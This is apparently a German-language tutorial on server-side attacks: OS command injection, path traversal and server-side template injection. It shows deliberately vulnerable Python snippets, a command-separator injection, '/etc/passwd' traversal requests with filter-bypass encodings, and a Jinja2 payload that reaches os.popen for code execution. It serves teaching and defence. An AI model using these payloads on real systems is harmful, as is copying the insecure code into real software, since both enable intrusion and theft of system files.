

---
tags:
  - Security
  - Vulnerability
  - Web Security
  - Server-Side
  - RCE
  - SSTI
  - Command Injection
  - Path Traversal
---

# Server-Side Angriffe: Command Injection, Path Traversal & SSTI

Diese Schwachstellen erlauben es Angreifern, direkt auf das Betriebssystem des Webservers zuzugreifen, beliebige Systemdateien auszulesen oder Remote Code Execution (RCE) zu erlangen.

---

## 1. OS Command Injection (Befehlsinjektion)

Command Injection tritt auf, wenn Benutzereingaben unzureichend gefiltert an eine System-Shell übergeben werden (z. B. `system()`, `exec()`, `popen()`, `subprocess.Popen(shell=True)`).

### Typisches Szenario: DNS-Lookup oder Ping-Tool
```python
# Unsicherer Python-Code:
ip = request.GET.get("ip")
os.system(f"ping -c 1 {ip}")
```

Wird als `ip` der Wert `8.8.8.8; whoami` übergeben, führt die Shell zwei Befehle aus:
```bash
ping -c 1 8.8.8.8; whoami
```

### Typische Shell-Separatoren:
- `;` (Sequenzielle Ausführung auf Linux)
- `&` bzw. `&&` (Hintergrundprozess bzw. Ausführung bei Erfolg)
- `|` bzw. `||` (Piping bzw. Ausführung bei Fehler)
- `` `command` `` oder `$(command)` (Command Substitution)
- Newline (`%0a`) zur Umgehung einfacher Filter.

---

## 2. Path Traversal (Directory Traversal)

Ermöglicht das Auslesen beliebiger Dateien außerhalb des dafür vorgesehenen Web-Wurzelverzeichnisses (`webroot`), indem die Verzeichnishierarchie mit `../` nach oben durchlaufen wird.

### Typisches Szenario: Datei-Download / Bildanzeige
```python
# Unsicherer Code:
filename = request.GET.get("file")
with open(f"/var/www/images/{filename}", "rb") as f:
    return f.read()
```

**Angriff:**
```http
GET /image?file=../../../../etc/passwd HTTP/1.1
```

### Bypasses für naive Filter:
- **Absolute Pfade:** `/etc/passwd` oder `C:\Windows\win.ini`.
- **Verschachteltes Traversal:** Wenn der Filter `../` einmalig löscht: `....//....//etc/passwd`.
- **URL-Encoding:** `%2e%2e%2f` oder Double-Encoding `%252e%252e%252f`.
- **Null-Byte Injection (Legacy / PHP < 5.3):** `file=../../etc/passwd%00.png`.

---

## 3. Server-Side Template Injection (SSTI)

SSTI tritt auf, wenn Template-Engines (wie Jinja2 in Flask/Python, Twig in PHP, FreeMarker in Java) Benutzereingaben direkt als Template-Code kompilieren, statt sie als reine Daten an das Template zu übergeben.



### Detektions-Entscheidungsbaum:
Um herauszufinden, welche Template-Engine im Einsatz ist, sendet man mathematische Ausdrücke:
1. `${7*7}` $\to$ Wenn $49$, handelt es sich meist um Java (FreeMarker/Velocity) oder PHP (Smarty).
2. `{{7*7}}` $\to$ Wenn $49$, sendet man `{{7*'7'}}`:
   - Liefert `49`: Twig (PHP).
   - Liefert `7777777`: Jinja2 / Mako (Python).

### Von SSTI zur Remote Code Execution (Jinja2 Exploit):
In Python kann man über die Klassen-Hierarchie von leeren Objekten zu `os.popen` navigieren:
```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
Ergebnis im HTTP-Response: `uid=33(www-data) gid=33(www-data) groups=33(www-data)`!
